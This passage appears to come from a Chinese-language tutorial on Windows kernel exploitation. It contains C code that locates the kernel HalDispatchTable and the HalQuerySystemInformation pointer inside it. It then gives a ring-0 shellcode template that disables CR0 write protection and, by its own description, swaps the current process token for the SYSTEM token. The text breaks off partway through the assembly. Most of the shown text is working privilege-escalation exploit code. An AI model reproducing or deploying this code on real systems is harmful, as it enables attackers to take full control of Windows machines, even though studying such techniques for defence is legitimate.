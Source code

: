 ```c
	NtStatus = LdrLoadDll(
		NULL,                // DllPath
		&DllCharacteristics, // DllCharacteristics
		&DllName,            // DllName
		&MappedBase);        // DllHandle
	if(NtStatus){
		printf("LdrLoadDll failed! NtStatus=%.8X\n", NtStatus);    
		goto ret;
	}

	// 获取内核模块在本进程空间中导出名称HalDispatchTable的地址
	RtlInitAnsiString(&ProcedureName, (PUCHAR)"HalDispatchTable");
	NtStatus = LdrGetProcedureAddress(
		(PVOID)MappedBase,          // DllHandle
		&ProcedureName,             // ProcedureName
		0,                          // ProcedureNumber OPTIONAL
		(PVOID*)&HalDispatchTable); // ProcedureAddress
	if(NtStatus){
		printf("LdrGetProcedureAddress failed! NtStatus=%.8X\n", NtStatus);    
		goto ret;
	}

	// 计算实际的HalDispatchTable内核地址
	HalDispatchTable = (PVOID)((ULONG)HalDispatchTable - (ULONG)MappedBase);
	HalDispatchTable = (PVOID)((ULONG)HalDispatchTable + (ULONG)ImageBase);

	// HalDispatchTable中的第二个ULONG就是HalQuerySystemInformation函数的地址
	xHalQuerySystemInformation = (PVOID)((ULONG)HalDispatchTable + sizeof(ULONG));

	// 打印HalDispatchTable内核地址和xHalQuerySystemInformation值
	printf("HalDispatchTable=%p xHalQuerySystemInformation=%p\n",
		HalDispatchTable,
		xHalQuerySystemInformation);
```

### 2 编写Ring0 Shellcode

下面的代码可以被看作是一个Ring0 Shellcode的模板。写保护开关是固定套路，这一点我们在前面已经提到。`[content]`部分是可替换的，这里才是实现不同功能的Shellcode。下面的例子中Shellcode功能是将当前进程的访问令牌替换为SYSTEM进程的访问令牌，从而将当前进程的访问权限提升为SYSTEM权限。我们增设了一个全局变量`g_isRing0ShellcodeCalled`，并在Shellcode执行成功后将其置1，是为了在后面的代码中检验Shellcode是否执行成功。

```c
int g_isRing0ShellcodeCalled = 0;
// Ring0中执行的Shellcode
NTSTATUS Ring0ShellCode(    
						ULONG InformationClass,
						ULONG BufferSize,
						PVOID Buffer,
						PULONG ReturnedLength)
{
	// 关闭写保护
	__asm
	{
		cli;
		mov eax, cr0;
		// mov g_uCr0,eax; 
		and eax,0xFFFEFFFF; 
		mov cr0, eax; 
	}
	// [content] start
	__asm
	{
		mov eax, 0xffdff124 // eax = KPCR (not 3G Mode)
		mov eax, [eax] // eax = PETHREAD of current thread
```